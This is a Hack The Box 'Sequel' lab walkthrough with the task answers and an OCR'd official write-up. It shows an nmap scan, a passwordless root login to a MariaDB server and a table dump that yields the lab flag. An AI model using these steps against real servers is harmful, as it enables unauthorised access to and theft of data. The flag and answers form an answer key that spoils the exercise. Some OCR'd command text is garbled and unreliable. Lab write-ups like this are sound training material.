```yaml
---
layout: ../../layouts/BlogPost.astro
title: "[Hack The Box] [Starting Point] [Tier 1] Sequel"
uuid: 042afe18-2f29-11ed-9703-327ebed86db8
version: 61
created: Thu, 08 Sep 2022 03:47:51 +0000
tags:
- z-class/career/pentest
- y-type/resource
- x-status/publish/writeup
---
```


**TASK 1**

**What does the acronym SQL stand for?** Structured Query Language

**TASK 2**

**During our scan, which port running mysql do we find?** 3306

**TASK 3**

**What community-developed MySQL version is the target running?** MariaDB

**TASK 4**

**What switch do we need to use in order to specify a login username for the MySQL service?** -u

**TASK 5**

**Which username allows us to log into MariaDB without providing a password?** root

**TASK 6**

**What symbol can we use to specify within the query that we want to display everything inside a table?** \*

**TASK 7**

**What symbol do we need to end each query with?** ;

**SUBMIT FLAG**

Steps:

mysql  -u  root  -h  ip

>show databases;

>use htb;

>show tables;

>select \* from config;

---

Note:

[Sequel.pdf](/attachments/Sequel.pdf) [^1]

[MySQL Commands: Full List With Examples - InterviewBit](https://www.interviewbit.com/blog/mysql-commands/) 

sudo apt install mysql\*

[^1]: Sequel Write-up
    Prepared by: One-nine9, ilinor
    Introduction
    Learning how to navigate databases is of considerable importance because most of the critical data is
    stored in them, including usernames and passwords, which can potentially be used to gain the highest
    privileged access to the target system. We have already touched on the subject of databases in previous
    write-ups. However, in this one, we are going to learn how to navigate through them.
    The reason web servers and other services use databases such as MySQL, MariaDB, or other technologies is
    to store the accumulated data somewhere easily accessible and well-organized. That data could represent
    usernames, passwords, posts, messages, the exact date when the users joined, and other information -
    depending on the website's purpose. Every database contains tables, which in turn contain rows and
    columns. For example, if there is a website that has a small social network and e-commerce section, there
    would be a need for several separate sections which should not be inter-accessible:
    . One containing users' private information, such as email addresses, geolocations, log-in history, and
    attached IP addresses, real names, credit card information, and more.
    . One containing publicly searchable information such as products, services, music, videos, and other
    types.
    SQL Service
    Databases
    Tables
    Columns
    Data
    Rows
    An excellent example of how an SQL Service typically operates is the log-in process utilized for any user.
    Each time the user wants to log in, the web application sends the log-in page input (username/password
    combination) to the SQL Service, comparing it with stored database entries for that specific user. Suppose
    the specified username and password match any entry in the database. In that case, the SQL Service will
    report it back to the web application, which will, in turn, log the user in, giving them access to the restricted
    parts of the website. Post-log-in, the web application will set the user a special permission in the form of a
    cookie or authentication token that associates his online presence with his authenticated presence on the
    website. This cookie is stored both locally, on the user's browser storage, and the webserver.
    Afterward, if the user wants to search through the list items listed on the page for something in particular,
    he will input the object's name in a search bar, which will trigger the same SQL Service to run the SQL query
    on behalf of the user. Suppose an entry for the searched item exists in the database, typically under a
    different table. In that case, the associated information is retrieved and sent to the web application to be
    presented as images, text, links, and other types, such as comments and reviews.
    Permissions Check & Query Translation
    .......
    ". ...
    Client
    Web Application
    SQL Service
    ..User Search
    In our case, however, we will not need to access the SQL Service through the Web Application. Upon
    scanning the target, we will find a direct way of "talking" to the SQL Service by ourselves.
    Enumeration
    Starting with the nmap scan, so we can check what ports are open and what services are running on them:
    -SC: Performs a script scan using the default set of scripts. It is equivalent to --
    script=default. Some of the scripts in this category are considered intrusive and
    should not be run against a target network without permission.
    -SV: Enables version detection, which will detect what versions are running on what
    port.
    $ sudo nmap -sC -sV {target_IP}
    Starting Nmap 7.91 ( https://nmap. org ) at 2021-07-10 14:57 CEST
    Nmap scan report for {target_IP}
    Host is up (0.069s latency).
    Not shown: 999 closed ports
    PORT
    STATE SERVICE VERSION
    3306/tcp open mysql
    MySQL 5.5.5-10.3.27-MariaDB-0+deb10ul
    mysql-info:
    Protocol : 10
    Version: 5.5.5-10.3.27-MariaDB-0+deb10ul
    Thread ID: 37
    Capabilities flags: 63486
    Some Capabilities: FoundRows, ODBCClient, Support41Auth, DontAllowDatabaseTableColumn,
    LongColumnFlag, SupportsCompression, ConnectWithDatabase, Speaks41ProtocolOld,
    Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, IgnoreSigpipes,
    InteractiveClient, SupportsTransactions, SupportsAuthPlugins, SupportsMultipleResults,
    SupportsMultipleStatments
    Status: Autocommit
    Salt: \| ixAwY5; j' \| aQNv'Zr0q
    Auth Plugin Name: mysql_native_password
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 2.28 seconds
    We only found one open port - 3306, which runs a service named MySQL 5.5.5-10.3.27-MariaDB-
    0+deblou1 . MySQL is a service designed for database management: creating, modifying, and updating
    databases, changing and adding data, and more.
    Foothold
    In order to communicate with the database, we need to install either mysql or mariadb on our local
    machine. To do that, you need to run the following command. Make sure you include the \* symbol at the
    end of the command to include all the related MySQL packages available. This will cover all of your needs for
    now.
    sudo apt update & & sudo apt install mysql\*
    After the installation is complete, you can run the following command to see how the service commands are
    used.
    ...
    $ mysql --help
    mysql Ver 15.1 Distribl0.5.10-MariaDB, for debian-linux-gnu (x86_64) using EditLine wrapper
    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
    Usage: mysql \[OPTIONS\] \[database\]
    Default options are read from the following files in the given order:
    /etc/my . cnf /etc/mysql/my. cnf \~/. my . cnf
    -?, --help
    Display this help and exit.
    -I, --help
    Synonym for -?
    -D, --database=name Database to use.
    -h, --host=name
    Connect to host.
    -P, --password \[=name \]
    Password to use when connecting to server. If password is
    not given it's asked from the tty.
    -P, --port=#
    Port number to use for connection or 0 for default to, in
    order of preference, my . cnf, $MYSQL_TCP_PORT,
    /etc/services, built-in default (3306).
    , --table
    Output in table format.
    -U, --user=name
    User for login if not current user.
    -V,
    --verbose
    Write more. (-v -v -v gives the table output format).
    -V, --version
    Output version information and exit.
    Note that the MySQL clients usually authenticate with the service with a username/password combination.
    However, it is essential to test for passwordless authentication, as there might be an intentional
    misconfiguration in the service, which would allow personnel to easily log into the service during the
    deployment stage of the project to easily interact with it before making it available to other colleagues. In
    the present situation, an initial attempt can be to attempt a log-in as the root user, naturally having the
    highest level of privileges on the system.
    -h : Connect to host.
    -u : User for log-in if not current user.
    .. .
    $ mysql -h {target_IP} -u root
    Welcome to the MariaDB monitor. Commands end with ; or \\g.
    Your MariaDB connection id is 46
    Server version: 10.3.27-MariaDB-0+deb10ul Debian 10
    Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.
    Type 'help; ' or '\\h' for help. Type '\\c' to clear the current input statement.
    MariaDB \[ ( none ) \]>
    With an ounce of luck, our connection is accepted without a password requirement. We are placed in a
    MySQL service shell from where we can explore the tables and data therein that are available to us. If you
    need help with MySQL command syntax, you can refer to the cheatsheet provided by MySQLTutorial.
    The commands we are going to use are essential for navigation:
    SHOW databases;
    : Prints out the databases we can access.
    USE {database_name) ;
    : Set to use the database named {database_name) .
    SHOW tables;
    : Prints out the available tables inside the current
    database.
    SELECT \* FROM {table_name) ;
    : Prints out all the data from the table {table_name).
    Note that it is essential to end each command with the ; symbol, as it declares the end of the command.
    Apart from that, SQL is a query-oriented language, which means that you supply it with one query at a time.
    ...
    MariaDB \[(none) \]> SHOW databases;
    \| Database
    htb
    information_schema
    mysql
    performance_schema
    4 rows in set (0. 066 sec )
    MariaDB \[( none) \]>
    From the output, the htb database seems to be of value to us. In order to see what rests inside it, we will
    need to "select" the htb database as the active one - the database we want to actively interact with for our
    subsequent commands. To achieve this, the USE htb; command can be used.
    ...
    MartaDB \[ (none ) \]> USE htb;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A
    Database changed
    MariaDB \[htb\]>
    We have successfully changed the database. The next step is to check what tables does the htb database
    contain. We can achieve this by following up with the SHOW tables; command.
    ...
    MariaDB \[htb\]> SHOW tables;
    Tables_in_htb
    config
    users
    2 rows in set (0. 062 sec )
    MariaDB \[htb\]>
    We have two tables: config and users . These can be checked sequentially for their content by using the
    SELECT \* FROM {table_name) command, where {table_name} is the exact name of the table you want
    to explore, taken from the output above. Once we query the config table for contents, the flag entry is
    output in our terminal, alongside its' value.
    . .
    MariaDB \[htb\]> SELECT \* FROM config;
    id \| name
    value
    timeout
    60s
    security
    default
    auto_logon
    false
    IOUAWN
    max_size
    2M
    flag
    7b4bec00d1a39e3dd4e021ec3d915da8
    enable_uploads
    false
    authentication_method
    radius
    7 rows in set (0. 062 sec )
    MariaDB \[htb\]>
    With the collection of the sought flag, this target can be wrapped up.
    Congratulations!

